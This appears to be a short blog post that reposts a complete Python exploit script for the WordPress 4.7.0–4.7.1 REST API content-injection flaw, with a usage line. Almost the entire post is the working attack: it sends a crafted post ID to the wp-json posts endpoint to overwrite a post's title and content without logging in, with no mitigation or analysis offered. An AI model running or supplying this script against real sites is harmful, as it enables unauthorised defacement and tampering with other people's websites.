 ```yaml
---
layout: post
title: Wordpress Content Injection Exploit ver. 4.7.0
date: 2022-02-16 15:47
author: theguler
comments: true
categories: [Hacking - Security]
---
```

<!-- wp:image {"id":1816,"width":553,"height":311,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large is-resized"><img src="https://farukguler.com/assets/post_images/wordpress.jpg?w=778" alt="" class="wp-image-1816" width="553" height="311" /></figure>
<!-- /wp:image -->

<!-- wp:preformatted -->
<pre id="block-212c4770-1090-40f9-a3aa-882bb19bd474" class="wp-block-preformatted">Usage: wp-content-injection.py --url http://127.0.0.1/wordpress/index.php/wp-json/wp/v2/posts/6 --title "test_icindir" --content "dikkat! lütfen pacth gecininiz...</pre>
<!-- /wp:preformatted -->

<!-- wp:preformatted -->
<pre id="block-212c4770-1090-40f9-a3aa-882bb19bd474" class="wp-block-preformatted"># wp-content-injection.py
# Exploit Title: WP Content Injection Exploit
# Date: 02-02-2017
# Exploit Author: Rony Das
# Vendor Homepage: https://wordpress.org/
# Software Link: https://wordpress.org/download/release-archive/
# Version: Wordpress 4.7.0 &amp; 4.7.1
# Tested on: BackBox - Ubuntu Based
# Founded by: https://blog.sucuri.net/2017/02/content-injection-vulnerability-wordpress-rest-api.html
import json
import requests
import optparse
import sys
from urlparse import urlparse
import time
script = sys.argv[0]
def getPid(url):
    l = url.split('/')
    getpid = l[l.index('posts') + 1]
    return getpid

def getDomain(url):
    parsed_uri = urlparse(url)
    domain = '{uri.scheme}://{uri.netloc}/'.format(uri=parsed_uri)
    return domain

def banner():
    return """
********************************************************
* _    _______      ______ _____ _____ _____    _____  *
*| |  | | ___ \     | ___ \  _  /  ___|_   _|  |_   _| *
*| |  | | |_/ /_____| |_/ / | | \ `--.  | |______| |   *
*| |/\| |  __/______|  __/| | | |`--. \ | |______| |   *
*\  /\  / |         | |   \ \_/ /\__/ / | |     _| |_  *
* \/  \/\_|         \_|    \___/\____/  \_/     \___/  *
*                                                      *
********************************************************
Greetz:~ Dipendra,Kirit dada &lt;3, Abk Khan, Mukarram Khalid, Ahmed Raza
"""

def main():
    parser = optparse.OptionParser("Usage: "+script+" -u &lt;URL&gt; --title \"&lt;PAGE_TITLE&gt;\" --content \"&lt;PAGE_CONTENT&gt;\"")
    parser.add_option("-u", "--url", dest="URL", type="string", help="Specify the URL")
    parser.add_option("-t", "--title", dest="TITLE", type="string", help="Specify the Page Title")
    parser.add_option("-c", "--content", dest="CONTENT", type="string", help="Specify the Page Content")
    (options, args) = parser.parse_args()
    url     = options.URL
    title   = options.TITLE
    content = options.CONTENT
    data = {"id" : ""+str(getPid(url))+"textappendshere", "title" : ""+title+"", "content" : ""+content+""}
    headers = {'Content-Type': "application/json; charset=xxxe", 'Accept': "application/json"}
    res = requests.post(url, data=json.dumps(data), headers=headers)
    resp = res.status_code
    print banner()
    print "Status Code: "+str(resp)
    print time.sleep(2)
    if str(resp) == "200":
        print "Yay!"
        print "[+] Exploiting .. "
        print "[+] check the post.."
        print "[+] "+getDomain(url)+"?p="+getPid(url)
    else:
        print "May be not vulnerable?"
if __name__ == '__main__':
    try:
        main()
    except KeyboardInterrupt:
        print "[-] User stooped the script."
        sys.exit(0)
    except:
        pass</pre>
<!-- /wp:preformatted -->
